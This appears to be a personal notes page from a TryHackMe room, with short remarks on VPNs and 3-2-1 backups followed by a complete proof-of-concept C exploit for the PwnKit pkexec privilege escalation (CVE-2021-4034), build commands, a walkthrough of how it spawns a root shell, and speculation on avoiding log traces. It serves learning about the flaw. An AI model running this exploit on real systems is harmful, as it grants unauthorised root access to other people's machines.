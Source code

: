 # TryHackMe: Common Attacks & Pwnkit

**author**:: Nathan Acks  
**date**:: 2022-02-03

## Common Attacks

### Public Network Safety

I really do wish that guides like this would stop highlighting VPNs -- their utility is just really unclear for most people anymore!

### Backups

"3, 2, 1" is a good mnemonic for backups:

* THREE or more copies
* TWO or more different storage devices
* ONE or more offsite backups

Though honestly, this is kind of a "minimum viable backup" strategy, since simply using a cloud service to mirror data between two devices would qualify! (Why? Working data counts as a copy...)

## Pwnkit (CVE-2021-4034)

### Exploitation

Quick-n-dirty Pwnkit exploit:

```c
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit's pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>
"
	"#include <stdlib.h>
"
	"#include <unistd.h>

"
	"void gconv() {}
"
	"void gconv_init() {
"
	"	setuid(0); setgid(0);
"
	"	seteuid(0); setegid(0);
"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");
"
	"	exit(0);
"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

The exploit is then as simple as `gcc $FILE -o exploit; ./exploit`. 

Here's what basically happens on execution:

* The exploit creates the path `GCONV_PATH=.` in the current directory and adds an invalid executable file to it.
* The exploit creates a second directory called `pwnkit` and sets up a malicious shared library designed to be loaded by GLib to translate system messages to the made-up character set "PWNKIT".
* The exploit calls `pkexec` with a NULL argument list (this bit is important, since we need the length of the argument list to be 0 -- so, not even to contain the name of `pkexec` itself) *but* with a correctly set up (albeit malicious) environment via `execve()`. Importantly, the first "variable" in the environment is actually the name of the (invalid) executable in the `GCONV_PATH=.` directory.
* Polkit just falls through the loop that it would normally use to walk through the passed-in arguments. This causes what would be pointing to an executable name to instead point to the first environment variable that's passed into `execve()`, which happens to be string `pwnkit`.
* Polkit looks up the malicious executable, finds it in `GCONV_PATH=./pwnkit` (because we set the PATH to that directory), and then tries to replace the executable name with this full path. *Except* that it's still writing to the first element of the environment, which causes `pwnkit` to be replaced by `GCONV_PATH=./pwnkit`.
* Polkit the proceeds to sanitize its environment. When it comes to the invalid SHELL variable this sanitization fails and Polkit throws an error and dies. *But!* Before dying, Polkit tries to *print* the error using a GLib function that dutifully attempts to translate the message into the "PWNKIT" character set. To figure out how to do this, modules are loaded from GCONV_PATH... And we've defined a malicious module to do this that cleans up the exploit files and spawns a root shell (since `pkexec` is SUID root).

This version of the exploit cleans up after itself, but does depend on generating a log message. The Qualsys advisory describing Pwnkit notes that "this vulnerability is also exploitable without leaving any traces in the logs, but this is left as an exercise for the interested reader." My guess is that to do this you'd need to reintroduce a different environment variable that `ld.so` normally strips when calling SUID binaries. (At least, I don't immediately see any place where Polkit is printing something that *isn't* a warning before it nukes its own environment, but then I'm not super-familiar with C and am only quickly skimming the `pkexec` source code.) *Or* perhaps you can do something with the permissions of the `GCONV_PATH=./pwnkit` file to trigger an error that would not be logged. (The trick here would be to do something so that `g_find_program_in_path()` resolves `GCONV_PATH=./pwnkit` but `access()` returns an error; it's not obvious to me how to do this though, or even if it *can* be done!)

It took me a while to figure out why this exploit doesn't occur when `pkexec` is called without any arguments, since it will still fall through the initial argument-parsing loop. The reason this doesn't happen is that `argv[1]` is NULL in this case (the last element of `argv` is always the NULL pointer), so the first string of the environment isn't wrongly loaded *and* and entirely separate code path is triggered before the `GCONV_PATH=./pwnkit` variable would have gotten written into the environment. (It's worth noting that Debian derivatives seem to have removed the `sudo -s` like functionality from `pkexec` entirely, and just display a help message in this case.)

* [arthepsy / CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)
* [pwnkit: Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)
* [polkit / src / programs / pkexec.c (commit 539bf5dc)](https://gitlab.freedesktop.org/polkit/polkit/-/blob/539bf5dcca489534f42798a4500aca4b1a8ec8d0/src/programs/pkexec.c)
